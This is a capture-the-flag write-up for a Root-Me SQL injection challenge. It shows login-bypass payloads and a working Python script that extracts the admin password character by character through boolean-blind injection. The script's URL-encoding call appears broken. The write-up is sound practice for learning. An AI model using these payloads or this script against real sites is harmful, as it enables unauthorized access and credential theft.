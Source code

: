 
-------

This challenge was simple in the request, but i came across some hurdles in the specific payloads to Boolean exfiltrate.

The challenge presented a simple sign in page with a username and password, it was clear it was injectable due to the fact that `' or 1=1; --` bypassed the checks.

First i tried to gain an understanding on the query by trying different payloads such as `admin' AND password='' or 1=1; --`. This returned true, but did not sign us in with Admin privileges (This is because of the or 1=1 comparison, this means it defaults the signing to the first index of the database).

I manage to determine the payload as `admin' AND password='' or 1=0`; This payload did not work, this confirmed that the application was acknowledging my statement and that i was injecting into a correct column.

Then i created a simple python script, this script:
- tested all characters against password, if true add to password
- tested again and again adding the next successful login until no characters worked.

###### Due to other challenges i have done, i was worried that the password was incorrect and it was not properly taking in bad characters and the URL encoding was not working. This was however not the case, and the `LIKE` comparison was not `Case Sensitve`. This meant that an "a" = "A" and since lowercase came first in the wordlist every character was lower, even though the actually password was not. Using a case-sensitive similar command, we got the password


The script:

```python
import requests
import string
import urllib.parse


URL = "http://challenge01.root-me.org/web-serveur/ch10/index.php" 
characters = string.digits + string.ascii_letters + "_@{}-/()!\"$=^[];:"

def main():
    password = ""
    while True:
        for i in string.printable:
            passwordAttempt = urllib.parse.query(password+i)
            data = {'username':f'admin\'AND password LIKE \'{passwordAttempt}%\' COLLATE BINARY; --', 'password':'filler'}
            print(f"Request Content = {data}")
            response = requests.post(URL,data=data)
            if 'admin' in response.text:
                password += i
                print(f'Password Starts With -> {password}')
                break
        else:
            print(f'Password is: {password}')
            quit()


if __name__ == "__main__":
    main()
          
```